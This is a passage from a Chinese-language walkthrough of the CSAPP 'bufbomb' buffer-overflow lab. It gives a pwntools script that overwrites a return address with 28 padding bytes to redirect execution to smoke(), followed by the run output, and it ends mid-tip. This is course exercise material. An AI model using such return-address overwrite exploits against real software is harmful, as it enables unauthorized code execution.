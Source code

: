 ``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x08048EB0
payload = 'a' * 28 + p32(address)
p.sendline(payload)
print(p.recv())

```

可以得到结果：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 21751
Team: domain
Cookie: 0x6dfd74c3

Type string:Smoke!: You called smoke()

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 21751)

Process finished with exit code 0

```

可以看到已经输出了调用了`smoke()`的信息，再看看`smoke()`函数：

``` c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}

```

应该已经成功。

!!! tip
    我知道总是会有人问我不想用pwntools怎么办。对于这一题来说，你可以准备好payload，就像这样：
    